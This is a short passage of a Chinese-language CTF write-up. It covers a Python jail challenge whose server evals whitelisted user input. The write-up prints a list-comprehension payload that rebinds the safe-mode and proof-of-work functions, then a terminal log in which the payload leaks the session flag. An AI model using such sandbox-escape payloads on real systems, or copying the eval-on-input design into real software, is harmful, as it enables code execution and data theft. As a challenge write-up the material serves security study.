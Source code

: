 ```python
    session = {}
    session['log'] = flag()
    switch_safe_mode = switch_safe_mode_factory()
    switch_safe_mode_factory = None
    valid_event_chars = set('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_0123456789[]')

    while True:
        PoW()
        print '$',
        event = raw_input() # get eventName and args from the RPC requests, like: funcName114514arg1114514args2114514arg3 ...
        switch_safe_mode()
        if event == 'exit': break

        for c in event:
            if c not in valid_event_chars:
                print "invalid request"
                exit(-1)

        event, args = event.split('114514')
        args = args.split('114514')
        try:
            handler = eval(event)
            print handler(args)
        except Exception, e:
            print 'exception:', str(e)
```

很简单，一开始的思路就在`switch_safe_mode`上，只要能恢复`stdin/stdout`就可以通过执行`input`读到session。通过白名单中的方括号，列表解析表达式变量覆盖

```python
#payload

[[dir]for[PoW]in[[switch_safe_mode]]for[switch_safe_mode]in[[dir]]]114514
input114514
# 输入session即可
```

```python
λ python serve.py
hashlib.sha1(input).hexdigest() == "4284"
> 4284
$ [[dir]for[PoW]in[[switch_safe_mode]]for[switch_safe_mode]in[[dir]]]114514
exception: 'list' object is not callable
$ input114514
['']session
{'log': '*ctf{JtWCBuYlVN75pb]y8zhJem9GAH1YsUqgMEvQn_P2wd0IDRTaHjZ3i6SQXrxKkL4[FfocO}'}
$
```

***

### CUMTCTF双月赛III
